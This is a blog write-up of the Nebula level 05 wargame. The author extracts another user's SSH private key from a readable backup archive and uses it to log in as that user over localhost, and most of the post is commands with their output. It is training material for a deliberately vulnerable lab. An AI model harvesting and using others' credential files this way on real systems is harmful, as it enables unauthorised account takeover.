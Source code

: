 ```yaml
---
layout: post
title: "Exploit Exercises - Nebula 05"
date: 2011-12-06T05:24:00-05:00
comments: true
categories:
 - Nebula
 - wargames
 - linux
 - exploit-exercises
 - hacking
---
```


So going forward to the [Nebula 05](http://exploit-exercises.com/nebula/level05), we now have to find some sort of weak permissions somewhere to escalate from level05 to flag05.  In searching through the flag05 home directory, I saw a ".backup" folder containing a copy of the user's old ssh keys. I extracted the archive to the level05 user's directory, so they could be used.

```
level05@nebula:/home/flag05$ cd .backup
level05@nebula:/home/flag05/.backup$ tar -xzvf backup-19072011.tgz -C /home/level05
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
```

Once that was setup, I simply tried to SSH back to the local machine but using the flag05 user, since I had their authentication keys.  Luckily it was secured *only* with keys, and not a password as well.  This let me right in.

```
level05@nebula:/home/flag05/.backup$ ssh flag05@localhost
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ECDSA key fingerprint is ea:8d:09:1d:f1:69:e6:1e:55:c7:ec:e9:76:a1:37:f0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'localhost' (ECDSA) to the list of known hosts.

      _   __     __          __
     / | / /__  / /_  __  __/ /___ _
    /  |/ / _ \/ __ \/ / / / / __ `/
   / /|  /  __/ /_/ / /_/ / / /_/ /
  /_/ |_/\___/_.___/\__,_/_/\__,_/

    exploit-exercises.com/nebula


For level descriptions, please see the above URL.

To log in, use the username of "levelXX" and password "levelXX", where
XX is the level number.

Currently there are 20 levels (00 - 19).


Welcome to Ubuntu 11.10 (GNU/Linux 3.0.0-12-generic i686)

* Documentation:  https://help.ubuntu.com/
Last login: Fri Dec  2 04:36:54 2011 from localhost
flag05@nebula:~$ getflag
You have successfully executed getflag on a target account
flag05@nebula:~$
```

After getting in, I ran the "getflag" command, in case it does store the results somewhere.